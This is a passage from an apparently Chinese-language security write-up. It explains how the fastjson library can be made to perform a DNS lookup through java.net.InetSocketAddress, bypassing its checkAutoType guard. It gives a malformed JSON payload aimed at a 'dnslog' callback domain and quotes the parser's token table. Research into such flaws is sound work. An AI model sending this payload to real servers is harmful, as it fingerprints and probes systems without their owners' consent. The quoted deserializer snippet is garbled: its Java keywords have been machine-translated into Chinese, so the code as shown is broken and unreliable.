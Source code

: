                         / / 1.将strVal作为主机名，获取其对应的IP，域名在此处被解析
                        返回InetAddress.getByName（strVal）; 
                    } catch（UnknownHostException var11）{ 
                        抛出新的JSONException（“反序列化inet地址错误”，var11）; 
                    } 
                } 
            }其他{ 
                返回null; 
            } 
    }

方法二：利用java.net.InetSocketAddress
--------------------------------------

`java.net.InetSocketAddress`类也在`IdentityHashMap`中，和上面一样无视`checkAutoType`检查。

通过它要走到`InetAddress.getByName()`流程计量方法一是要绕过一些路的。刚开始一直没构造出来，后来在和实验室的`@背影`师傅交流时，才知道可以顺着解析器规则构造（`它要啥就给它啥`），最终有效载荷如下，当然它是畸形的json。

    {"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}

那这个是怎样构造出来的呢？这需要简单了解下fastjson的词法分析器了，这里就不展开了。这里尤为关键的是解析器`token`值对应的含义，可以在`com.alibaba.fastjson.parser.JSONToken`类中看到它们。

    //com.alibaba.fastjson.parser.JSONToken
    public class JSONToken {
        ...
        public static String name(int value) {
            switch(value) {
            case 1:
                return "error";
            case 2:
                return "int";
            case 3:
                return "float";
            case 4:
                return "string";
            case 5:
                return "iso8601";
            case 6:
                return "true";
            case 7:
                return "false";
            case 8:
                return "null";
            case 9:
                return "new";
            case 10:
                return "(";
            case 11:
                return ")";
            case 12:
                return "{";
            case 13:
                return "}";
            case 14:
                return "[";
            case 15:
                return "]";
            case 16:
                return ",";
            case 17:
                return ":";
            case 18:
                return "ident";
            case 19: